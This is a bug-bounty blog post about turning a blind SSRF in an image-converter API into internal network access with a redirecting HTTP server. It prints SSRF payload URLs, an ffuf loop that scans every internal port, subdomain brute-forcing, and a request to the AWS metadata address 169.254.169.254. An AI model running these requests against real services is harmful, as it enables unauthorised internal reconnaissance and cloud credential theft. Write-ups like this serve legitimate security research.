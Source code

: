 ```yaml
---
title: "From . in regex to SSRF - part 2"
date: 2020-01-14T10:14:47+01:00
draft: false
tags: [SSRF, bugbounty]
---
```


In this story I will continue my journey to exploit Server Side Request Forgery (SSRF). Part 1 is available [here]{{< ref "/blog/from-dot-in-regex-to-ssrf-part-1.md" >}}).

What is state of the game up to now? I have found service that is vulnerable to SSRF by executing the REST call and by passing domain name check:

```https://api.example.org/image-converter/https://www-example.org```

I have registered domain name: `www-example.org` and add for it `CNAME` record to my EC2 server.

But wait a second. **This is not yet "SSRF"**. For now I could call specific domain, but didn't prove ability to scan internal ports or execute requests to internal services.

First of all I checked what headers are sent to my server:

```nc -l -n -p 80```

![obraz](https://user-images.githubusercontent.com/17719543/139582215-1ead26ed-3b56-4ff7-9e25-35d901c27653.png)

What it interesting here is `User-Agent`. Clearly indicating **NodeJS** and **node-fetch** library.

## Tools

For this part I needed http server to host some files and do redirects. Here is my script based on python `http.server`:

{{< gist xvnpw 9fa7f7c5a7dfa13d3f27d2e19af9a264 >}}

This script is doing two things:

* if request is starting with query parameter `/?r=` it is taking value of this parameter and put it in `Location` header, returning code `302`
* else it is loading file from disk and always returning `image/svg+xml` with code `200`. **This is important!** Always return expected `Content-Type` to check if parser can handle different types.

This code is PoC so don't expect much out of it. It's for testing purpose only. `Don't use it on production`.

You can check more of my hacking resources in [my public repo](https://github.com/xvnpw/hacking).

## Mind map

Here is mind map of ideas that I had during exploitation:

![obraz](https://user-images.githubusercontent.com/17719543/139582537-5fe5ba0c-123f-4413-8a0f-9f90194a5415.png)

## SVG payload

Hosting some svg files was my first shot. I have took some from PayloadsAllTheThings repository, but sadly none was working.

In most cases I got `502 Bad Gateway` and in some payloads were just ignored. The other thing I noticed is that I was able request `png` or `jpg` file and it was parsed. I have gut feeling that service was using some kind of NodeJS library, not ImageMagick. Maybe I did miss something?

## HTTP Redirect

I have implemented in my `server.py` possibility to redirect with new `Location` header. This created variety of options to exploit.

Lets start with ports scanning:

```https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F127.0.0.1%3A80%2F```

Redirect part is url encoded to not break service with `?` or `/`. I have taken this to Burp Intruder and scan all ports. But if you are using free version of Burp this can take a very long time. So it's better to use `ffuf`:

```bash
for i in {1..65535}; do echo $i; done > all_ports.txt;
ffuf -mc all -ac -w all_ports.txt -u 'https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F127.0.0.1%3AFUZZ%2F'
```

Same way I was able to **scan for internal services**. For list of domains I used SecLists:
```bash
ffuf -mc all -ac -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u 'https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2FFUZZ.example.org%2F'
```

This will try to make a call to subdomains of `example.org` but from perspective of `api.example.org`. In my case it found redis instance on `redis.example.org`.

Next step for me was **access cloud resources**, e.g. metadata services on 169.254.169.254:

```https://api.example.org/image-converter/https://www-example.org/%3Fr%3Dhttp%3A%2F%2F169.254.169.254%3A80%2F```

I was able to positively connect to 169.254.169.254. So it means that service was running on AWS.

## Summary

I finally got blind SSRF using redirect `302` code and `Location` header! That's gave me possibility to penetrate internal network. I was disappointed that no svg payload was working. For part 3 I left "HTTP Parser Abuse" - I will try to force node-fetch to change protocol and talk with services like `redis`.

---

Thanks for reading! You can follow me on [Twitter](https://twitter.com/xvnpw).
